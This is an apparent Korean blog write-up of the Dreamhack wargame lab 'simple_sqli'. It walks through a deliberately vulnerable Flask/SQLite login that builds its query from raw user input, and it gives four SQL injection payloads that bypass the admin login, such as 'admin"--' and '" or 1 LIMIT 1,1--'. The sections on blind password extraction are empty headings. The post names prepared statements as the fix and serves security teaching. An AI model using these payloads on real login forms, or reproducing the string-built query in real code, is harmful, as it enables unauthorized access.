 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (3) : Exercise"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```



# Web Hacking [함께실습] simple_sqli
## 웹 서비스 분석
### 데이터베이스 구조

```python
#데이터 베이스 파일명을 database.db로 설정
DATABASE = "database.db"
# 파일이 존재하지 않는 경우
if os.path.exists(DATABASE) == False:
    # 파일 생성 및 연결
    db = sqlite3.connect(DATABASE) 
    # users 테이블 생성
    db.execute('create table users(userid char(100), userpassword char(100));')
    # 관리자와 guest 계정 생성 (데이터 입력)
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit() # 쿼리 실행 확정
    db.close() # db 연결 종료
```
<br>

**위의 코드로 생성된 데이터 베이스의 구조**<br>
이 때 guest 계정의 비밀번호는 이요앚가 알 수 있지만, admin 게정은 랜덤하게 생성됨 16바이트의 문자열이기에, 비밀번호를 예상할 수 없다

|userid|userpassword|
|:------:|:---|:---|
|guest|guest|
|admin|랜덤 16바이트 문자열을 Hex 형태로 표현 (32비트)|

### 엔드포인트 : /login

```python
# Login 기능에 대해 GET과 POST HTTP 요청을 받아 처리함
@app.route('/login', methods=['GET', 'POST']) 
def login(): # login 함수 선언
    if request.method == 'GET': 
        # 이용자가 GET 메소드의 요청을 전달한 경우, 이용자에게 ID/PW를 요청받는 화면을 출력
        return render_template('login.html')
    else: # POST 요청을 전달한 경우
        # 이용자의 입력값인 userid를 받은 뒤, 이용자의 입력값인 userpassword를 받고
        userid = request.form.get('userid') 
        userpassword = request.form.get('userpassword')
        # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러옴
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res: # 쿼리 결과가 존재하는 경우
            userid = res[0] # 로그인할 계정을 해당 쿼리 결과의 결과에서 불러와 사용
            if userid == 'admin': # 이 때, 로그인 계정이 관리자 계정인 경우
                return f'hello {userid} flag is {FLAG}' # flag를 출력
            # 관리자 계정이 아닌 경우, 웰컴 메시지만 출력
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        # 일치하는 회원 정보가 없는 경우 로그인 실패 메시지 출력
        return '<script>alert("wrong");history.go(-1);</script>'
```

## 취약점 분석 & 익스플로잇 (Exploit : 취약점 공격)
### 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인
위의 login 함수에서 userid와 userpassword를 받은 후, query_db 함수를 사용하여 SQLite에게 질의한다. 이처럼 동적으로 생성한 쿼리를 RawQuery라고 한다. RawQuery를 생성할 때, 이용자의 입력값이 쿼리문에 포함된다면 SQL Injection에 노출된다. 이용자의 입력값을 검사하는 과정이 없기에, 임의의 쿼리문을 userid, userpassword에 삽입하여 공격할 수 있는 것이다. SQL 데이터를 사용할 때 쿼리문을 직접 생성하는 방식이 아닌, Prepared Statement와 ORM(Object Relational Mapping)을 사용하여 해결할 수 있다. Prepared Statement는 동적 쿼리가 전달되면 내부적인 쿼리 분석을 통해 안전한 쿼리문을 생성한다

```python
def query_db(query, one=True): # query_db 함수 선언
    cur = get_db().execute(query) # 연결된 데이터베이스에 쿼리문을 질의
    rv = cur.fetchall() # 쿼리문 내용을 받아오기
    cur.close() # 데이터베이스 연결 종료
    # 쿼리문 질의 내용에 대한 결과를 반환
    return (rv[0] if rv else None) if one else rv 
```
#### 로그인 쿼리

```sql
SELECT * FROM users WHERE userid="{userid}" AND userpassword="{userpassword}";
```
#### SQL Injection 공격 쿼리문 작성

```sql
/*
ID: admin, PW: DUMMY
userid 검색 조건만을 처리하도록, 뒤의 내용은 주석처리하는 방식
*/
SELECT * FROM users WHERE userid="admin"-- " AND userpassword="DUMMY"

/*
ID: admin" or "1 , PW: DUMMY
userid 검색 조건 뒤에 OR (또는) 조건을 추가하여 뒷 내용이 무엇이든, admin 이 반환되도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" or "1" AND userpassword="DUMMY"

/*
ID: admin, PW: DUMMY" or userid="admin
userid 검색 조건에 admin을 입력하고, userpassword 조건에 임의 값을 입력한 뒤 or 조건을 추가하여 userid가 admin인 것을 반환하도록 하는 방식
*/
SELECT * FROM users WHERE userid="admin" AND userpassword="DUMMY" or userid="admin"

/*
ID: " or 1 LIMIT 1,1-- , PW: DUMMY
userid 검색 조건 뒤에 or 1을 추가하여, 테이블의 모든 내용을 반환토록 하고 LIMIT 절을 이용해 두 번째 Row인 admin을 반환토록 하는 방식
*/
SELECT * FROM users WHERE userid="" or 1 LIMIT 1,1-- " AND userpassword="DUMMY"
```

### 관리자 계정의 비밀번호를 모른 채 로그인을 우회
1. 개발자도구의 네트워크 탭 -> Preserve log
2. userid, password에 guest를 입력하고 login 버튼 클릭
3. /login으로 전송된 POST요청 찾기
4. 하단의 Form Data 확인

#### 비밀번호 길이 파악
#### 비밀번호 획득


